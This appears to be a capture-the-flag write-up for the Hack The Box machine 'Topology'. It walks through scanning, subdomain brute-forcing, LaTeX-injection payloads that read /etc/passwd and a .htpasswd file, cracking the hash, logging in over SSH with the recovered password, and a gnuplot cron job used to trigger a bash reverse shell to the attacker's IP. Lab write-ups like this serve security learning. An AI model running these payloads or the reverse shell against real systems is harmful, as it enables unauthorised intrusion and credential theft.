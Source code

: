 ```yaml
---
title: Topology
tags: HTB Latex gnuplot linux  
article_header:
  type: cover
published: true
author: krill
---
```



![](/images/HTB/topology/Topology.png)
<!--more-->

## Reconnaissance 
```
nmap -sCV 10.10.11.217 -T4 -oN map.txt  -Pn 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| -     2023-01-17 12:26  demo/
[[about]]| 1.0K  2023-01-17 12:26  demo/fraction.png
| 1.1K  2023-01-17 12:26  demo/greek.png
| 1.1K  2023-01-17 12:26  demo/sqrt.png
| 1.0K  2023-01-17 12:26  demo/summ.png
| 3.8K  2023-01-17 12:26  equation.php
| 662   2023-01-17 12:26  equationtest.aux
| 17K   2023-01-17 12:26  equationtest.log
| 0     2023-01-17 12:26  equationtest.out
| 28K   2023-01-17 12:26  equationtest.pdf
|_
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Service Enumeration
```
[+] Port 22 
	Version: OpenSSH 8.2p1 
	Public-Exploit: None

	- I need some form of credentials to authenticate to this service which I don't have. 

[+] Port 80 
	Version: Apache httpd 2.4.41
	Public-Exploit: None 
	
	- Visiting the wepage
```
![](/images/HTB/topology/page.png)
```
	- Viewing the page source, I discovered a subdomain and added it to my `/etc/hosts` file. 
```
![](/images/HTB/topology/source.png)
```
		> echo '10.10.11.217  latex.topology.htb' | sudo tee -a /etc/hosts 
	
	[+] Subdomain Bruteforce
		 - Using ffuf to bruteforce for other virtual hosts
			 > ffuf -u http://topology.htb -w /words/big.txt  -t 30 -H 'HOST: FUZZ.topology.htb' -c -fs 6767
		
		- Discovered two other subdomains
```
![](/images/HTB/topology/result.png)
```
		- Add them to your /etc/hosts file 
		
		
	[+] latex.topology.htb 
		- Visiting http://latex.topology.htb/equation.php, you find a LaTeX Equation Generator.
```
![](/images/HTB/topology/lat.png)
```
		- Checking for related vulnerabilities and exploits, I found a cheatsheet on hacktricks that provided payloads for LaTeX Injection.

		- Using the following payload, I was able to read the /etc/passwd file;
			> $\lstinputlisting{/etc/passwd}$
```
![](images/HTB/topology/passwd.png)
```
		- From the /etc/passwd file, I discoverd a user `vdaisley`

	[+] dev.topology.hb
		- Visiting dev.topology.htb shows an http basic authentication.
```
![](/images/HTB/topology/basic.png)
```
		- Since this is http basic authentication, the credentials should be stored somewhere on the web server in a file called .htpasswd
		
		- Using the vulnerability discovered on the latex generator, we should be able to read that file. The question is, where exactly is this file. 

		- Remember the webserver is running apache, so we can check the `sites-enabled/000-default.conf` configuration file to get more information about the subdomains. 
			> $\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$
		
		- This displays information about the virtual hosts on the web-server
```
![](/images/HTB/topology/devroot.png)
```
		- The document root for dev is `/var/www/dev`, that means the credential to the http basic authentication should be stored in `/var/www/dev/.htpasswd`
			>  $\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](/images/HTB/topology/creds.png)
```
		- You can use any online tool like google-image, to extract the text from the image. 
		  
	[+] Password Attack
		- Using john-the-ripper, you can crack this hash to get the clear-text password. 
			> john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![](/images/HTB/topology/john.png)


## Initial Access 
```
	[+] SSH login 
		- Reusing the credentials, we gain access into the machine using ssh
			> sshpass -p calculus20 ssh vdaisley@topology.htb 
```


## Post Exploitation
```
[+] Privilege Escalation 

	[+] Automated tasks
		- Using pspy, which is a linux which allows you to see commands run by other users, cron jobs, etc. as they execute.  
```
![](/images/HTB/topology/pspy.png)
```
		- I  noticed the root user was using the find command to search for all .plt files in the /opt/gnuplot and running the gnuplot binary on each discoverd file.  
		- gnuplot is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.


	[+] gnuplot Command Execution
		
		Since the gnuplot command is run by the root user, we should be able to get a reverse-shell as the root user.
		 
		- The script file of gnuplot can be used to execute system commands.
		  
		- Checking the permission of the /opt/gnuplot directory, we see that we have permissions to write into this directory 
```
![](/images/HTB/topology/gnuplot.png)
```		  
		- Create a new script.plt file in this directory with the following code. 
			> system " bash -c 'bash -i >& /dev/tcp/10.10.16.59/443 0>&1'"
			
		- Prepare a netcat listener to catch the reverse-shell connection
			> nc -lvnp 443
		
		- When the gnuplot binary is run again, you should get a root shell. 
	
	[+] Root :) 
```


[Hacktricks_link](https://book-hacktricks-xyz.translate.goog/pentesting-web/formula-doc-latex-injection?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-GB#latex-injection)
[gnuplot_command_execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)

